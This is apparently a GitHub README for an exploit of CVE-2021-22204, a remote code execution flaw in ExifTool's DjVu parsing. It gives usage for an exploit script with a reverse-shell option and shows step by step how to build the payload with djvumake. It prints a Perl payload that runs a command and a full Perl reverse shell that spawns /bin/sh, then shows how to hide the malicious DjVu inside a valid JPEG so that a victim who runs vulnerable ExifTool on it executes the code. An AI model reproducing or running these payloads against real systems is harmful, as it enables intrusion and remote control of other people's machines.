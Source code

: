 # CVE-2021-22204

## Description

Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image


## Script

[Script Link](./CVE-2021-22204.sh)


![image](https://user-images.githubusercontent.com/5285547/128046966-73d274e6-dbc8-4787-8a62-a8173dff4ab1.png)

### Script usage:

System cmd:
```
bash CVE-2021-2204.sh "system('id')" happy.jpg 
```

Reverse shell
```
bash CVE-2021-2204.sh "reverseme 10.10.10.10 9999" happy.jpg
```
*Your IP and PORT


## Manual Exploit

```
$ sudo apt install djvulibre-bin
# Installs the required tools
 
$ bzz payload payload.bzz
# Compress our payload file with to make it non human-readable
 
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
# INFO = Anything in the format 'N,N' where N is a number
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as background image
# ANTz = Will write the compressed annotation chunk with the input file
```

Payload

```
(metadata "\c${system('id')};")
```

Payload (for reversehell)

```
(metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(9999,inet_aton('localhost')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};#")
```

Then, when the victim opens the file exploit.djvu with a vulnerable version  
of Exiftool our embedded Perl code will execute the command id .

# Config file for Exiftool

```
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```

What this file does is make possible that we write a new tag on the file, with the name HasselbladExif and the bytes 0xc51b to identify it inside our new file. Then we can insert it inside of any file. [8]Then use it and our already made exploit.djvu to insert the malicious DjVu file inside a valid JPEG

```
$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg

configfile = The name of our configuration file;
-HasselbladExif = Tag name that are specified in the config file;
exploit.djvu = Our exploit, previously made with djvumake;
hacker.jpg = A valid JPEG file;
```


Credits and help: https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
